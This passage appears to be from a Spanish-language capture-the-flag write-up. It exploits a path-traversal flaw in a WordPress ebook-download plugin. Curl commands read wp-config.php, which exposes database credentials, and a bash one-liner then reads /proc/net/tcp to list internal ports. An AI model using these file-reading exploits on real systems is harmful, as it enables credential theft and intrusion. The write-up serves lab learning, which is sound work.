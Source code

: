 ```plaintext
❯ curl -s 'http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php'
```

Conseguimos credenciales de la base de datos

```plaintext
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

Desgraciadamente la máquina víctima no tiene MYSQL expuesto, podríamos intentar autenticarnos contra el servicio ssh o contra el panel de administrador de Wordpress pero no tendremos exito en ninguno de los casos anteriores.

Puesto que no podemos autenticarnos contra el sistema tendremos que seguir consiguiendo información mediante el LFI. Uno de los directorios m  s importantes para conseguir información es el `/proc`, este directorio contiene un subdirectorio por cada proceso que se esté ejecutando. Nos puede ser útil a la hora de enumerar el kernel y los procesos.

Sabiendo esto, podemos conseguir ver que puertos estan abiertos internamente con el siguiente one-liner:

```bash
for port in $(curl -s 'http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../../../../../proc/net/tcp' | awk '{print $2}' | grep -v "local_address" | awk '{print $2}' FS=":" | sort -u); do echo "[$port] -> Puerto $(echo "ibase=16; $port" | bc)" ;done
```

Podemos ver que la máquina víctima tiene los siguientes puertos abiertos internamente:

```plaintext
[0016] -> Puerto 22
[0035] -> Puerto 53
[0539] -> Puerto 1337
[0CEA] -> Puerto 3306
[8124] -> Puerto 33060
[9B5A] -> Puerto 39770
[B2D0] -> Puerto 45776
```
